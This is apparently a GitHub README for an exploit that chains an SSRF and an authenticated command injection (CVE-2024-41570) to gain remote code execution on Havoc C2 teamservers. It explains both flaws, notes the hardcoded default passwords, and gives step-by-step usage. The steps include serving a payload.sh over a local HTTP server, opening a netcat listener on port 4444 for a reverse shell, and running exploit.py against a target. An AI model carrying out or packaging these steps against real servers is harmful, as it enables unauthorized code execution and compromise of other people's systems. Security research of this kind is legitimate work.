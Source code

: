 # Havoc-C2-RCE
This is a Chained RCE (CVE-2024-41570) in the Havoc C2 framework.

Command injection: Havoc is vulnerable to command injection enabling an authenticated user to execute commands on the Teamserver. Affects versions 0.3 up to the latest release 0.6. Havoc's default profile contains hardcoded passwords, so a C2 operator careless enough to use the default profile on a public network can immediately be exploited.

SSRF: This vulnerability is exploited by spoofing a demon agent registration and checkins to open a TCP socket on the teamserver and read/write data from it. This allows attackers to leak origin IPs of teamservers and much more.

Chain: Abusing SSRF to deliver an authenticated command injection payload.

# How to use
![2025-01-19 20-01-34](https://github.com/user-attachments/assets/e57accee-6d1e-4633-aa32-a0ee07c42988)

```
1. Modify the IP, USER and PASSWORD in the exploit.py file.
2. Modify IP in payload.sh
3. 

-> python3 -m venv myenv && source myenv/bin/activate
-> pip3 install -r requirements.txt
-> chmox +x payload.sh
-> python3 -m http.server (On another terminal)
-> nc -lvnp 4444 (On another terminal)

# Run the exploit
(myenv) -> python3 exploit.py -t https://site.com -i 0.0.0.0 -p 12345
```

Credits to [@chebuya](https://github.com/chebuya/Havoc-C2-SSRF-poc) and [@Hyperreality](https://github.com/IncludeSecurity/c2-vulnerabilities/blob/main/havoc_auth_rce/havoc_rce.py)
